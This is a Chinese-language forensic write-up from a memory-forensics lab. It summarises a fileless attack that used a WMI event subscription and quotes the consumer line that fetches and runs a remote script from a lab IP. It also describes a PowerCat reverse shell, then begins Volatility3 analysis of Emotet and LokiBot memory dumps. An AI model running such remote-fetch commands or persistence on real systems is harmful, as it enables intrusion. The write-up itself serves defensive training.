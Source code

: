 ### 調查總結
- `4/3/2022 5:45:39 AM` 駭客以 `IEUser` 帳號使用 `Run as administrator` 執行 `evil3.vbs`
- `4/3/2022 5:45:39 AM` 電腦被加入 `WMI FilterToConsumerBinding` 設定
	- Filter `Ready2Go`：每 `5秒` 檢查一次 `登入 log`
	- Consumer `sysWOW64.wbemapi`：觸發 `下載執行可疑檔案 gimmesome.js`
	> GetObject("script:http://192.168.56.1:8080/gimmesome.js")
- `4/3/2022 6:05:45 AM` 有人登入產生 `4624` log
	- 觸發下載 `gimmesome.js`
	- 執行 `gimmesome` 所提供惡意指令
	> 有機會在 PowerShell 的 memory dump 中看到 GET HTTP/1.1 等內容，或另外嘗試透過 wireshark 或 tcpdump 等方式側錄到
- `4/3/2022 6:05:46 AM` 下載 `chromeupdater.ps1 (就是 PowerCat)` 並建立 `reverse shell` 連線往 `192.168.56.1:5566`
- `後續` 可以從 event log 中看到駭客利用 reverse shell 還下過哪些指令

# 嘗試從其他 memory dump 中擷取惡意內容
`other_memory_dumps` 資料夾中有附兩個受害主機的 memory dump：`Emotet.dmp`、`LokiBot.dmp` 可以練習

- Fileless Attack 大致有分幾種類型
	- Code Injection：把惡意程式插入正常程式的記憶體中執行
	- Script-Based：透過 Windwos 中的正常 script (例如：PowerShell、Cscript、Wscript⋯⋯等)
	- Living off the Land：人為介入利用一些管理工具 (例如：PsExec、WMIC、Mimikatz) 達成的

上述分類中本次用的手法就歸類在第二種的 `Script-Based`，第一種的 `Code Injection` 用 Volatility3 跑起來會漂亮一點

## `Emotet`

- #### 先用 `windows.info` 確認 Volatility3 能解析 memory dump 格式
```console
$ python3 ../vol.py -f Emotet.dmp windows.info
Volatility 3 Framework 2.0.2
Progress:  100.00		PDB scanning finished
Variable	Value

Kernel Base	0xf80002662000
DTB	0x187000
Symbols	file:///Users/han.chen/opt/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/3844DBB920174967BE7AA4A2C20430FA-2.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 Elf64Layer
base_layer	2 FileLayer
KdDebuggerDataBlock	0xf800028530a0
NTBuildLab	7601.17514.amd64fre.win7sp1_rtm.
CSDVersion	1
KdVersionBlock	0xf80002853068
Major/Minor	15.7601
MachineType	34404
KeNumberProcessors	1
SystemTime	2019-12-06 16:17:48
NtSystemRoot	C:\Windows
NtProductType	NtProductWinNt
NtMajorVersion	6
NtMinorVersion	1
PE MajorOperatingSystemVersion	6
PE MinorOperatingSystemVersion	1
PE Machine	34404
PE TimeDateStamp	Sat Nov 20 09:30:02 2010
```
- #### 跑一下 `windows.pstree` 找可疑 process
```console
$ python3 ../vol.py -f Emotet.dmp windows.pstree
Volatility 3 Framework 2.0.2
```